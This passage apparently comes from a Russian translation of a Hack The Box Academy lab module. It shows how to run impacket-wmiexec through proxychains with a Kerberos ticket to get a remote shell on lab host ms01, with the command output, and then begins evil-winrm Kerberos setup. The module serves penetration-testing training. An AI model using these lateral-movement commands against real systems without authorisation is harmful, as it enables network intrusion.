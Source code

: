 Использование Impacket с прокси-цепями и аутентификацией Kerberos

```shell-session
lizergindoma@htb[/htb]$ proxychains impacket-wmiexec ms01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  ms01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  MS01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```

**Примечание.** Если вы используете инструменты Impacket с компьютера Linux, подключенного к домену, обратите внимание, что некоторые реализации Linux Active Directory используют префикс FILE: в переменной KRB5CCNAME. Если это так, нам нужно изменить переменную только для включения пути к файлу ccache.

### Зло-Winrm

Чтобы использовать [evil-winrm](https://github.com/Hackplayers/evil-winrm) с Kerberos, нам нужно установить пакет Kerberos, используемый для сетевой аутентификации. Для некоторых Linux, таких как Debian (Parrot, Kali и т. д.), это называется `krb5-user`. Во время установки мы получим приглашение для области Kerberos. Используйте доменное имя: `INLANEFREIGHT.HTB`, а KDC - это `DC01`.

#### Установка пакета проверки подлинности Kerberos

Установка пакета проверки подлинности Kerberos

```shell-session
lizergindoma@htb[/htb]$ sudo apt-get install krb5-user -y

Reading package lists... Done                                                                                                  
Building dependency tree... Done    
Reading state information... Done

<SNIP>
```

#### Область Kerberos версии 5 по умолчанию

![текст](https://academy.hackthebox.com/storage/modules/147/kerberos-realm.jpg)
